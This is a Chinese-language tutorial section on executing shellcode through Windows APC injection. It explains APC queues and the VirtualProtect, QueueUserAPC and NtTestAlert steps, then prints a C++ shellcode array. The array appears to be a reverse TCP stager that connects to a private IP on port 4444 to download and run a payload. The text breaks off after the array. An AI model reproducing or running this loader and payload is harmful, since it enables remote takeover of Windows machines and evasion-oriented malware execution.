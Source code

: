 ​	

# 6.基于APC注入

## 什么是APC队列

异步过程调用（APC）队列是一个与线程关联的队列，用于存储要在该线程上下文中异步执行的函数。操作系统内核会跟踪每个线程的 APC 队列，并在适当的时机触发队列中挂起的函数。APC 队列通常用于实现线程间的异步通信、定时器回调以及异步 I/O 操作。

APC 队列包含两种类型的 APC：

1. 内核模式 APC：由内核代码发起，通常用于处理内核级别的异步操作，如异步 I/O 完成。
2. 用户模式 APC：由用户代码发起，允许用户态应用程序将特定函数插入到线程的 APC 队列中，以便在线程上下文中异步执行



## 实现思路

- 使用 `VirtualProtect` 函数修改 `shellcode` 所在内存区域的保护属性，将其设置为可执行、可读、可写（`PAGE_EXECUTE_READWRITE`），以便执行其中的代码。
- 获取 `NtTestAlert` 函数的地址。这是一个内部函数，无法直接通过函数名调用。`NtTestAlert` 函数用于检查当前线程的 APC 队列。如果队列中有挂起的用户模式 APC 请求，`NtTestAlert` 将触发它们的执行。
- 使用 `QueueUserAPC` 函数向当前线程的 APC 队列添加一个执行 Shellcode 的任务。这将在 `NtTestAlert` 被调用时执行 Shellcode。
- 调用 `NtTestAlert` 函数，触发 APC 队列中的任务执行，实现 Shellcode 的执行



## 实现代码

该代码通过在当前线程的 APC 队列中添加一个执行 Shellcode 的任务，并调用 `NtTestAlert` 函数触发 APC 队列中的任务执行，从而实现了加载并执行 Shellcode 的目的

```cpp
#include <Windows.h>

typedef DWORD(WINAPI* pNtTestAlert)();

unsigned char shellcode[] =
"\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52"
"\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x31\xff\x0f\xb7"
"\x4a\x26\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d"
"\x01\xc7\x49\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01"
"\xd0\x8b\x40\x78\x85\xc0\x74\x4c\x01\xd0\x8b\x48\x18\x8b"
"\x58\x20\x01\xd3\x50\x85\xc9\x74\x3c\x49\x31\xff\x8b\x34"
"\x8b\x01\xd6\x31\xc0\xc1\xcf\x0d\xac\x01\xc7\x38\xe0\x75"
"\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58\x24\x01"
"\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01"
"\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58"
"\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00"
"\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8"
"\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80"
"\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x2f\x9b\x68\x02\x00"
"\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
"\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74"
"\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67"
"\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f"
"\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10"
"\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53"
"\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8"
"\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b"
"\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e"
"\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xf0\xb5\xa2\x56\x6a"
"\x00\x53\xff\xd5";

```
